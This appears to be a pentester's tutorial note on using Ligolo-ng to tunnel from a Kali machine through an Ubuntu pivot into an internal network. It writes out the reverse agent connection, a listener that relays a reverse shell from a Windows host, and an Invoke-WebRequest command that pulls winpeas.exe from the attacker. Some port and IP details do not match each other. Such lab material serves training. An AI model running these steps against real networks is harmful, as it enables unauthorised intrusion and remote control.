 # Ligolo-ng

**Ligolo-ng** is a _simple_, _lightweight_ and _fast_ tool that allows pentesters to establish tunnels from a reverse TCP/TLS connection using a **tun interface** (without the need of SOCKS).

{% embed url="https://github.com/nicocha30/ligolo-ng" %}

## Setting Up

{% embed url="https://github.com/nicocha30/ligolo-ng/releases" %}

For the setup, we need only two files. Agent and Proxy

Agent: File to be installed on pivot machine\
Proxy: File to be installed on attacker machine



## Attack Scenario 1

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

For this first attack scenario, we have our attacker machine (kali) and pivot machine (ubuntu).\
Pivot machine has an additional network interface (172.16.1.15).\
We cannot ping/access this {172.16.1.15} network from our attacker machine (kali).

Lets get access to this network

In our attacker machine\
`sudo ip tuntap add user [your_username] mode tun ligolo` \
this will add new tun interface `ligolo`\
`sudo ip link set ligolo up` \
this will enable the newly created interface `ligolo`

Now we need two file\
`ligolo-ng_agent_version-linux_version.tar.gz` for pivot machine\
`ligolo-ng_proxy_version-linux_version.tar.gz`for attacker machine

get latest version form official github repo.

Then transfer the agent file to the pivot machine (ubuntu)

### In attacker machine

`./proxy -selfcert`

### In pivot machine

`./agent -connect kali_linux_ip:11601 -ignore-cert`\
port `11601` is by default set on proxy in the attacker machine\
we should use `-autocert` flag when the pivot machine has internet access. This is more secure than `-ignore-cert`



### In attacker machine

`session` to list the session and select the session we want to connect\
`ifconfig or ipconfig` to view the interface of the pivot machine.

Now in new terminal \
sudo ip route add `172.16.1.0/24 dev ligolo`\
here we are adding route for 172.16.1.0/24 network

once the route is set.

Go back to the terminal where agent is agent is running\
`start` -> this wll start tunnel to the pivot machine.



Now we have connection to the `172.16.1.0/24`network\
Meaning we can view the webserver running  on port 80 of windows `172.16.1.16`

## Getting Reverse Shell

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Lets say we now have access to the windows machine on `172.16.1.0/24` which was previously not routable from our attacker host. Now we want reverse shell connection from that machine (windows).

That windows machine cannot reach us, it does not have route to our ip, it can only reach the pivot machine.

To solve this

We can listen to ports on Agent (pivot machine) and redirect the connection back to us (attacker machine)

we can set this up using

*   In attacker proxy terminal \
    `listener_add --addr 0.0.0.0:30000 --to 127.0.0.1:10000 --tcp`

    on the pivot machine, any device or interface on port `3000` will redirect our port `10000`

Which means we can create a payload with \
lhost: 172.16.1.15\
lport: 10000

when the pivot machine gets data on port 30000\
it will redirecto it to port 10000 on our attacker machine(kali)\


Meaning we can listen on 10000 to get the reverse shell connection.



## Transferring File Between Machines

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>



To transfer files, we can add another listener.

`listener_add --addr 0.0.0.0:11111 --to 127.0.0.1:22222 --tcp`

In our attacker machine run python http server on port 22222

In windows target machine, download the file using

`Invoke-WebRequest -Uri "http://172.16.1.5:11111/winpeas.exe" -OutFile winpeas.exe`

Here, windows will send request to port 11111 on pivot (ubuntu) and ligolo-ng will redirect it to port 22222 on our attacker machine\
\
\
More more insight, what this video by John Hammond

{% embed url="https://youtu.be/qou7shRlX_s" %}
